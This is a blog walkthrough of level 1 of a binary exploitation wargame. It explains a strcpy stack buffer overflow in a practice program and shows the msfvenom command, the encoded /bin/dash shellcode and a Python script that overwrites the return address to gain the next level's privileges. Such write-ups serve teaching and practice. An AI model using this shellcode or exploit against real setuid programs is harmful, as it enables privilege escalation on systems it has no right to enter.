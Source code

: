 ![Logo](/assets/images/belts-white.png)

At one point I _stumbled_  over the **Certified Secure Binary Mastery** challenges. 
They are not terribly difficult and _each one of them has an interesting element_. This makes them _accessible and fun_. 

In this blog posts and the following four I'll go through the [Ensign](https://www.certifiedsecure.com/certification/view/37) levels. As described, these ones deal with _retro exploitation techniques_ like buffer overflows, format strings, off-by-one errors and so on. No recent security mitigations are involved in the Ensign levels (E.g.: ASLR or non-executable stack). Don't worry too much about this yet, because their complexity increases to keep the hackers _in flow_. 

![Ensign](/assets/images/bm1.png)

**I hope it goes without saying that these blog posts shouldn't be used as a way to cheat yourself in any case, but as a learning oportunity. With this in mind, let's begin with _Level 1_**.

## 0 - Discovery

Let's connect to the server and check the binary we're dealing with:
```
$ ssh level1@hacking.certifiedsecure.com -p 8266
level1@hacking.certifiedsecure.com's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 3.13.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      
```

Let's see if we have any mitigation techniques using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally :
```bash
$ checksec.sh --file level1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   level1
```

Good signs: as expected NX is disabled and there is no stack canary. Let's verify that the stack is executable:
```
$ readelf -lW level1 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
```

The R**W**E flag suggests Read-**Write**-Execute flags are all enabled. What about the state of ASLR on the system? Good news again: there is [no ASLR](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization), everything is static:
```bash
$ cat  /proc/sys/kernel/randomize_va_space
0
```

## 1 - Vulnerability

What we have here is a classic stack-based buffer overflow, caused by overflowing the 16-byte buffer _buf_ using the insecure function _strcpy_, which doesn't do any bounds checking:

```c
#include <stdio.h>                                                                                                 
#include <string.h>

void helloworld(char* name) {
    char buf[16];

    strcpy(buf, name);

    printf("Hello %s!\n", buf);
}

int main(int argc, char** argv) {
    if (argc != 2) {
        printf("Usage: %s <name>\n", argv[0]);
       
        return -1;
    }

    helloworld(argv[1]);

    return 0;
}
```

## 2 - Exploitation

By overwriting the return address from the function _helloworld_, we can redirect the execution of the program. We'll chose as destination _**a location on the stack containing our shellcode**_. Steps:
* Find the position that overwrites the return address.
* Generate _NULL-free_ shellcode for the correct architecture. Although the machine is 64-bit, the binaries are 32!
* Place the shellcode in an environment variable.
* Find the static address of the environment variable (No ASLR, remember?) and used it conjunction with step 1.

### Control the execution flow
Although  we can generally use tools from Metasploit Framework like _pattern_create_ and _pattern_offset_, in this case it is much simpler. We can just examine stack of the _helloworld_ function in IDA:

![helloworld stack](/assets/images/bm1-2.png)

So at dest+24 we have the saved EBP and at **dest+28** the saved return address. 

### Generate shellcode
We'll do this very easily from Kali. We can generate a payload to execute **/bin/dash** to ensure it will [not drop the SUID privileges](http://stackoverflow.com/questions/13209215/bin-sh-does-not-drop-privileges):
```bash
# msfvenom  -p linux/x86/exec CMD=/bin/dash -e x86/shikata_ga_nai -b '\x00' -f python
```

### Shellcode placement and location
Place the shellcode generated from MSF into a python script (_put-sc.py_ below) and place the output into an environment variable:

```python
buf =  ""                                                                                                          
buf += "\xda\xd7\xba\xb4\x13\x10\x12\xd9\x74\x24\xf4\x5d\x31\xc9\xb1"
buf += "\x0c\x31\x55\x18\x83\xed\xfc\x03\x55\xa0\xf1\xe5\x78\xc3\xad"
buf += "\x9c\x2f\xb5\x25\xb2\xac\xb0\x51\xa4\x1d\xb1\xf5\x35\x0a\x1a"
buf += "\x64\x5f\xa4\xed\x8b\xcd\xd0\xe7\x4b\xf2\x20\xd8\x29\x9b\x4e"
buf += "\x09\xca\x3a\xfc\x3d\x12\xea\x51\x34\xf3\xd9\xd6"

print "\x90"*30 + buf
```

```bash
$ export EGG=$(python /tmp/put-sc.py)
```

We still need to find out exactly where on the stack of our level1 binary will the environment variables reside. The easiest way to do this is to add an instruction to print the address of our environment variable and recompile level1.c **_on the target_**:

```c
 printf("EGG address: 0x%lx\n", getenv("EGG"));
 ```
 
 To compile files on the target we need to do it from the /tmp folder, or use a different TMPDIR variable, because we don't have write access in the current home folder, used by gcc for temporary files. Let's say we want to create another directory to be used as temporary folder for compilation:
 
 ```bash
$ mkdir /tmp/me
$ export TMPDIR=/tmp/me                                                                                            
$ gcc -m32 -fstack-protector -z execstack  /tmp/level1-mod.c -o /tmp/level1-mod
 ```
 
 Don't forget to use the same protection mechanisms (none!) as present in the original binary: no stack cookies (_-fnostackprotector_) and executable stack (_-z execstack_).
 
So the static address where the environment variable EGG will be located when running level1 is **0xffffd8c6**:

```bash
$ /tmp/level1-mod aaaaa
EGG address: 0xffffd8c6
Hello aaaaa!
```
## 3 - Profit

The following script generates the payload:

```python
#!/usr/bin/python                                                                                                  

import struct

# Address of environment variable containing shellcode
# Obtain this from findeggaddr.c
ret =  struct.pack("<L", 0xffffd8c6)

print "A" * 24 + ret*2
```

And we're in:
```bash
$ /levels/level1 $(python /tmp/expl.py)
Hello AAAAAAAAAAAAAAAAAAAAAAAA������!
$ id
uid=1002(level1) gid=1002(level1) euid=1003(level2) groups=1003(level2),1002(level1)
$ /home/level2/victory
   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      

Subject: Victory!

Congrats, you have solved level1. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level1 @ binary mastery ensign)
   * the exploit

You can now start with level2. If you want, you can log in
as level2 with password [REDACTED]
```


In the [next level](https://livz.github.io/2016/01/14/binary-master-ensign-2.html) we'll exploit another classic vulnerability, **uncontrolled format strings**.
